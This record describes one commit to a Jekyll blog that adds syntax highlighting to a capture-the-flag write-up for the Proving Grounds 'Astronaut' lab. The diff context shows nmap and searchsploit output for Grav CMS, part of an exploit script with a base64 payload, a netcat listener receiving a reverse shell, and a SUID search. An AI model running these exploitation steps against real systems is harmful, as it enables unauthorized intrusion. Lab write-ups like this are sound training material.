

Before and after one commit to lowercasenumbers/lowercasenumbers.github.io, a Jekyll site: the page built from _posts/PG/2023-11-14-pg-astronaut.md, in a window 1280 px wide and 1400 px high, scrolled down 1560 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; some of the changed text lies outside the part shown.

Commit message:
Add syntax highlighting

````diff
--- a/_posts/PG/2023-11-14-pg-astronaut.md
+++ b/_posts/PG/2023-11-14-pg-astronaut.md
@@ -18,7 +18,7 @@
 ```
 
 Following a scan of all TCP ports, the results below show only port 80 is open which simplifies what to look at next.
-```
+```bash
 # Nmap 7.94 scan initiated Fri Nov 10 08:29:45 2023 as: nmap -sC -sV -oA nmap/initial -p- 192.168.245.12
 Nmap scan report for 192.168.245.12
 Host is up (0.015s latency).
@@ -46,7 +46,7 @@
 ![Grav-Webpage](/img/pg/astronaut/grav-webpage.png)
 
 Using SearchSploit we can see a few possible exploits. Cross-site scripting is generally not going to provide us with an entry point. The Server-Side Template Injection requires authentication. Arbitrary YAML Write/Update could work so we take a look at the exploit details.
-```
+```bash
 searchsploit "Grav CMS"
 ---------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
  Exploit Title                                                                                                                                                  |  Path
@@ -63,7 +63,7 @@
 
 # Initial Access
 With a potential exploit identified, we should take a moment to review the source code . Taking a look at the 49973.py exploit, we see a target is hardcoded in a variable named `target` and a base64 encoded payload and an example of how to replace it.
-```
+```python
 ... shortened for brevity...
 
 target= "http://192.168.1.2"
@@ -80,7 +80,7 @@
 
 
 As we specified in the payload, we setup a netcat listener on port 4444 using `nc -nlvp 4444`. Once setup we can run the exploit using `python 49973.py`. It may take a few moments for the shell to be returned. After waiting for a minute, we recieve the reverse shell as the user www-data.
-```
+```bash
 nc -nlvp 4444
 listening on [any] 4444 ...
 connect to [192.168.45.240] from (UNKNOWN) [192.168.245.12] 41192
@@ -94,7 +94,7 @@
 
 Another quick check we can perform is looking for any binaries set with a SUID bit. This would allow that binary to be run as the user who owns the binary. Most often this is the root user. To test it we can run the following:
 
-```
+```bash
 find / -perm -u=s -type f 2>/dev/null
 
 ...shortened for brevity...
@@ -139,7 +139,7 @@
 # Other Notes
 When performing my enumeration following gaining my foothold, I found a cron job that ran every minute. This at first appeared to be the path to escalation. However, when taking a close look at the grav binary, it should be noted that this is owned and run by the `www-data` user. While its possible to replace this with a malicious binary and recieve a reverse shell. Doing so would result in a reverse shell as the `www-data` user. Had this cron job been run as root, we could have leveraged it.
 
-```
+```bash
 www-data@gravity:~/html/grav-admin/bin$ crontab -l
 crontab -l
 * * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1
````
